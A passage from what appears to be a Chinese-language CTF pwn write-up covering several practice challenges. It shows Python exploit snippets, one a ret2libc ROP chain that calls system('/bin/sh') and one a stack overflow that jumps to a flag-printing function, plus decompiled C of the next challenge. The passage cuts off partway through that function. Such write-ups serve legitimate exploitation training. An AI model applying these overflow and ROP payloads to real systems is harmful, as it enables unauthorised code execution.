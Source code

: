 ```python
leak = uu64(r(6))
system,binsh = ret2libc(leak,'__libc_start_main')

payload = flat('a'*0x58,pop_rdi,binsh,system)
send(payload)
```

### ciscn_2019_n_1

依然是最简单的无保护 `gets` 并且程序中有 `system("cat /flag")`，找到后者地址返回过去即可。

```python
cat_flag = 0x4006be

def send(payload):
    ru('number.\n')
    sl(payload)

payload = flat('a'*0x38, cat_flag)
send(payload)
```

### ciscn_2019_en_2

和上上题一样。

## Part II

### [OGeek2019]babyrop

```c
int __cdecl main()
{
  int buf; // [esp+4h] [ebp-14h]
  char v2; // [esp+Bh] [ebp-Dh]
  int fd; // [esp+Ch] [ebp-Ch]

  sub_80486BB();
  fd = open("/dev/urandom", 0);
  if (fd> 0 )
    read(fd, &buf, 4u);
  v2 = sub_804871F(buf);
  sub_80487D0(v2);
  return 0;
}
```

`main` 中 `sub_80486BB` 用于初始化，然后将一个随机数传入 `sub_804871F`：

```c
int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s; // [esp+Ch] [ebp-4Ch]
  char buf[7]; // [esp+2Ch] [ebp-2Ch]
  unsigned __int8 v5; // [esp+33h] [ebp-25h]
  ssize_t v6; // [esp+4Ch] [ebp-Ch]

  memset(&s, 0, 0x20u);
  memset(buf, 0, 0x20u);
  sprintf(&s,"%ld", a1);
  v6 = read(0, buf, 0x20u);
  buf[v6 - 1] = 0;
  v1 = strlen(buf);
  if (strncmp(buf, &s, v1) )
```